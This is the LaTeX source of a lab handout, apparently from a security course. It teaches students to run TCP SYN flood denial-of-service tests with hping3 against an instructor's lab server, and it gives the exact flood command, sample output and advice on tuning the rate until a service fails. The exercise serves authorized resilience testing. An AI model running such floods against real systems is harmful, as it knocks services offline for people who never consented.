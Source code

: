 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100%
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp


{\bf Hints:}\\
The tool we use can do a lot of different things, and you can control the speed. You can measure at the server being attacked or what you are sending, commonly using ifpps or such programs can help.

By changing the speed we can find out how much traffic is needed to bring down a service. This measurement can then be re-checked later and see if improvements really worked.
\end{document}

